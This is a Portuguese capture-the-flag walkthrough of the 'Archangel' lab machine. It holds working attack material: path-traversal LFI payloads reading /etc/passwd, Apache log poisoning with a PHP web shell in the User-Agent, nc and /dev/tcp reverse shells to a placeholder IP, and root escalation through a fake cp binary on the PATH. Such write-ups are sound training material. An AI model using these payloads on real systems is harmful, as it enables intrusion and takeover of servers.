# _**Archangel CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Vamos também realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Conten/common.txt
> ```


Temos diversos diretórios para podermos explorar  
Vamos começar com <mark>/flags</mark>  
Temos um arquivo _.html_ que leva para a músca "never gonna give you up"  
Isso traz lembranças  

Vamos continuar  
Agora, o segundo diretório, <mark>/images</mark>  
Parece que temos apenas uma página em branco, sem nada no código da página também  
Se ficarmos sem pistas, tavlez novamente utilizar gobuster, mas neste diretório  

Os outros diretórios também estão vazios com páginas brancas  
Pareec que estamos ficando sem alternativas  
Muitos e muitos gobuster's depois, sem nenhum resultado diga-se de passagem, voltamos a página inicial  
Temos um nome de domínio, mas isso não nos diz muita coisa  
Após muito pesquisar, encontrei uma solução  
Deve-se adcionar o nome de domínio, isto é, _**mafialive.thm**_ para nosso arquivo _/etc/hosts_ e só assim, poderemos acessar a página verdadeira  
Vamos tentar  



Assim, conseguimos obter nossa primeira flag!  
Vamos continuar com novamente, um scan <mark>Nmap</mark>  



Temos um resultado diferente!  
Agora é uma página _.php_  
E uma delas se chama _/test.php_  
> http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php

## _**Ganhando acesso**_

Parece que temos um lugar que aceita comandos  
Tentamos com ```id```, mas não é permitido  
Foram mais alguns comandos, mas nenhum deles foi permitido  
Vamos tentar os seguintes para LFI:
* ?view=../../../../../etc/passwd
* ?view=....//....//....//....//....//etc/passwd
* ?view=....\\/....\\/....\\/etc/passwd
* ?view=..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

Nenhum deles deu certo  
Sabemos que, ao clicar no botão, o _backend_ verifica o _path_  
Podemos tentar: 
* ?view=/var/www/html/development_testing/....//....//....//....//....//...//etc/passwd%00
* ?view=/var/www/html/development_testing/../../../../../etc/passwd%00
* ?view=/var/www/html/development_testing/....\\/....\\/....\\/....\\/....\\/....\\/etc/passwd%00
* ?view=/var/www/html/development_testing/..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

Também nenhum sucesso  
Após algumas várias tentativas, temos sucesso neste daqui: <mark>?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd</mark>  
Vamos puxar para nossa máquina e deixar _mais bonito_  



Podemos então buscar outros diretórios importantes como diretórios de _log_  
Vamos tentar com: <mark>/..//..//..//..//../..//log/apache2/access.log</mark>  
Parece que temos resposta:  



O _log poisoning_ ou injeção de log é uma técnica que permite ao invasor adulterar o conteúdo do arquivo de log, como inserir código malicioso nos logs do servidor para executar comandos remotamente ou obter um shell reverso  
A partir dos _logs_ de acesso, pode-se ver que, junto com o caminho que estamos tentando acessar, nosso _User-Agent_ também está sendo registrado  
Podemos adicionar um código PHP no cabeçalho User-Agent usando o Burp Suite e com a ajuda disso obter um shell reverso  

Vamos tentar de outra maneira, com <mark>Burp Suite</mark>  
Após iniciar e configurar o _proxy_ em nosso navegador, capturamos um pacote de solicitação em <mark>/..//..//..//log/apache2/access.log</mark>  
Interceptando o pacote, vamos enviar para o _repeater_  
Lá, poderemos editar  
Na URL, vamos incluir **&cmd=whoami**  
E no **User-Agent**, vamos incluir o trecho: <mark><?php system($_GET['cmd']); ?></mark>



E temos retorno!
Vamos agora tentar obter um _shell_  
Da mesma maneira que fizemos anteriormente com Burp, mas agora alterando a URL para como está abaixo  
> /..//..//..//log/apache2/access.log&cmd= rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [ip_address] [port] >/tmp/f  

Não esquecendo de codificar a URL completa e substituir no lugar  
E também ligar nosso ```netcat``` na porta adequada  



Sucesso!
Vasculhando os arquivos de onde estamos, conseguimos obter flags!

## _**Escalando privilégios**_
Primeiramente, vamos melhorar nossa shell
> ```bash
> python3 -c 'import pty, os; pty.spawn("/bin/bash")'
> ```

A maneira mais rápida para conseguirmos fazer uma escalação, vamos buscar na nossa máquina o programa <mark>LinPEAS</mark>  
> ```bash
> sudo python3 -m http.server 8000
> wget http://path/to/linpeas.sh:8000 -O /tmp/linpeas.sh
> chmod +x /tmp/linpeas.sh
> ./linpeas.sh
> ```
Executando, temos o seguinte retorno  



Parece que o arquivo _/opt/helloworld.sh_ é executado a cada minuto pelo usuário _archangel_  
E temos também suas permissões  



Vamos tentar explorar isso  
> ```bash
> echo 'bash -i >& /dev/tcp/[ip_address]/[port] 0>&1' >> /opt/helloworld.sh
> ```
Após, ligue seu ```necat``` e em seguida, executar o arquivo  


Investigando um pocuo, conseguimos obter mais uma flag!  
Agora que estamos em _archangel_, vamos tentar ganhar _root_  
Primeio, investigamos e encontramos um arquivo que chama a atenção  



Parece que _backup_ é importante  
Vamos mudar para seu diretório e executar <mark>strings</mark>  



Podemos ver que os arquivos do diretório _/home/user/archangel/myfiles/*_ estão sendo copiados para _/opt/backupfiles_  
Observamos que o comando ```cp``` está sendo chamado, mas sem que seu **PATH** completo seja mencionado  
Vamos criar um executável ```cp``` falso e acrescentar sua localização ao **$PATH**  
Então, sempre que ```cp``` é chamado, nosso binário malicioso é executado em vez do comando ```cp``` original  
> ```bash
> cd /tmp
> touch cp
> echo "/bin/bash -p" > cp
> chmod 777 cp
> ```

Agora, basta alterar o **PATH** para podermos obter _root_  
> ```bash
> $PATH
> export PATH=/tmp:$PATH
> $PATH
> ```

Executando o binário
> ```bash
> ./backup
> ```


Basta um ```cat``` em _/root/root.txt_ para obtermos a última flag!
